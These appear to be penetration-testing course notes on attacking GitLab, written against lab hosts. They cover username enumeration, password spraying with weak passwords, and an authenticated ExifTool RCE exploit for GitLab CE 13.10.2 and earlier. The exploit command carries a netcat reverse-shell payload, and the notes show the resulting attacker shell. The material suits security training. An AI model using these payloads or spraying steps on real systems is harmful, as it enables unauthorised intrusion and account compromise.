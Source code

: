 ## Attacking GitLab
### Overview  

GitLab is a web-based Git-repository manager that supports CI/CD pipelines, issue tracking, and collaboration tools. While many deployments are properly secured, even unauthenticated access may lead to severe information leakage or compromise.

GitLab had 553 CVEs reported as of September 2021. While not all of them are exploitable, multiple vulnerabilities have resulted in critical-level issues like Remote Code Execution (RCE).
### Username Enumeration

- GitLab allows user and project enumeration by design. This is not considered a vulnerability by GitLab unless it leads to additional impact.
- Despite this, valid usernames can be leveraged in brute-force or password spraying attacks.
- GitLab's default security config:

```
config.maximum_attempts = 10
config.unlock_in = 10.minutes
```

- These defaults mean:    

    - After 10 failed login attempts, an account gets locked.
    - Unlocks automatically after 10 minutes.
    - These settings are not modifiable via the GitLab UI, only through source modification.

- Tools for enumeration:
    
    - Publicly available script by @4D0niiS: `gitlab_userenum.sh`        
    - Accepts a `--url` to the target GitLab instance and a `--userlist`

Example usage:

```
Yashfren@htb[/htb]$ ./gitlab_userenum.sh --url http://gitlab.inlanefreight.local:8081/ --userlist users.txt

[+] The username root exists!
[+] The username bob exists!
```

- Once valid usernames are known, common weak passwords (e.g., `Welcome1`, `Password123`) or leaked credentials from breaches can be tried with controlled spraying.

Authenticated Remote Code Execution (GitLab CE ≤ 13.10.2)

- GitLab Community Edition version 13.10.2 and below is vulnerable to an authenticated RCE due to a flaw in ExifTool when parsing image metadata.   
- Vulnerability arises when uploading malicious image files via the Snippets feature.
- Exploiting this allows arbitrary command execution under the `git` user.

Preconditions:

- Requires valid credentials (via OSINT or a working password)
- Or the instance must allow open self-registration

Exploit usage:

```
python3 gitlab_13_10_2_rce.py \
  -t http://gitlab.inlanefreight.local:8081 \
  -u mrb3n \
  -p password1 \
  -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.15 8443 >/tmp/f'
```

Successful exploitation:

```
[1] Authenticating
Successfully Authenticated
[2] Creating Payload 
[3] Creating Snippet and Uploading
[+] RCE Triggered !!
```

Attacker Shell:

```
Yashfren@htb[/htb]$ nc -lnvp 8443

listening on [any] 8443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.88] 60054

git@app04:~/gitlab-workhorse$ id
uid=996(git) gid=997(git) groups=997(git)

git@app04:~/gitlab-workhorse$ ls
VERSION
config.toml
flag_gitlab.txt
sockets
```
# Tags
> #Exploitation #Application-Exploitation #Gitlab 